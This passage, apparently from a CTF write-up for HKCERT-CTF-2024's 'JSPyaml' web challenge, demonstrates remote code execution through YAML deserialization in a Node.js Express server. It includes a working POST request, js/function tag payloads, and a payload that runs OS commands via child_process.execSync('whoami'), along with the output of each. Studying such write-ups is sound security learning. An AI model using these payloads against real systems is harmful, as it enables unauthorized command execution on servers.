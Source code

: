 After that, we can send the following POST request to test RCE via server-side YAML deserialization:

```http
POST /debug HTTP/1.1
Host: localhost:3000
Cookie: debug=on
Content-Type: application/x-www-form-urlencoded
Content-Length: 94

yaml="toString"%3a+!<tag%3ayaml.org,2002%3ajs/function>+"function+(){console.log('RCE!!')%3b}"
```

Response:

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 2
ETag: W/"2-vyGp6PvFo4RvsFtPoIWeCReyIC8"
Date: Sun, 17 Nov 2024 09:56:51 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{}
```

Although the response data is empty, it did executed our evil function. We can see the output in the log message:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml/web)-[2024.11.17|17:44:12(HKT)]
└> node server.js
[...]
Input: "toString": !<tag:yaml.org,2002:js/function> "function (){console.log('RCE!!');}"
RCE!!
Output: undefined
```

To execute OS commands, we can use the following payload:

```yaml
"toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('whoami').toString());}"
```

In this payload, we're getting the `require` function via `process.mainModule`. Then, we import `child_process` and use function `execSync` to execute OS commands. Finally, the `toString` method is to convert executed command's output from byte to string.

```shell
Input: "toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('whoami').toString());}"
siunam

Output: undefined
```
